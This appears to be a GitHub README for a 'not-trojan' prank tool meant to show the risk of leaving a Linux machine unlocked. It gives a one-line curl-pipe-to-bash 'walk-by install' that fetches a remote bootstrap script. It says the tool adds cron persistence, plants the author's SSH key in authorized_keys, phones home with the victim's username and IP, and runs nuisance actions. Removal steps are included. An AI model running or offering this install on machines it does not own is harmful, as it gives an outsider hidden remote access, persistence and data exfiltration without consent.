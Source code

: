 # Walk-by install:

curl -s -L https://raw.githubusercontent.com/eadanila/not-trojan/master/bootstrap.sh | bash

---
# Description

A small collection of scripts I once used remind people to lock their PCs when they walk away. By example.

I'd call it a Trojan but it doesn't trick anyone into anything. It's like if the Greeks just walked
into Troy because the Trojans left the gate unlocked while they went to the kitchen for a coffee.

The walk-by install adds a user cron job to clone to full repo so that it can be installed in under 10
seconds of access to the machine reardless of repos size or network speed.

Once fully installed, it installs my SSH key into the machine's authorized keys file, phones home with
the username and IP address, and runs every minute via cron to do configured tasks. It does not attempt
to gain any higher priviliges than the user it runs as or to get the user's password.

Listening server was just a manually run `woof -U` instance. IP is hardcoded in `et-phone-home.sh`.

It carries out nuisance actions, like writing new files into random directories in `$HOME`. Written files
are tracked for easy removal. I'm not a monster. I just want to prove what can be done with very little
access to an unlocked Linux machine.

Remote control over SSH will only work on LAN unless the target has opened their firewall to SSH. Otherwise,
it should still work by pulling updates and executing via cron. 
# Removal

You can remove all traces of the install by:
1. Edit your crontab to remove all lines ending with `#lsconfig-*`
2. Remove all the files listed in `$HOME/.config/lsconfig/state/hello.log` 
    - `rm $(cat $HOME/.config/lsconfig/state/hello.log)`
    - It should be fine, but MAKE SURE THIS FILE DOESN'T HAVE ANY UNEXPECTED ENTRIES FIRST 
3. Remove `$HOME/.config/lsconfig`
4. Remove the key from `nobody@nowhere` in your authorized keys file.
4. Set things like your wallpaper back to normal
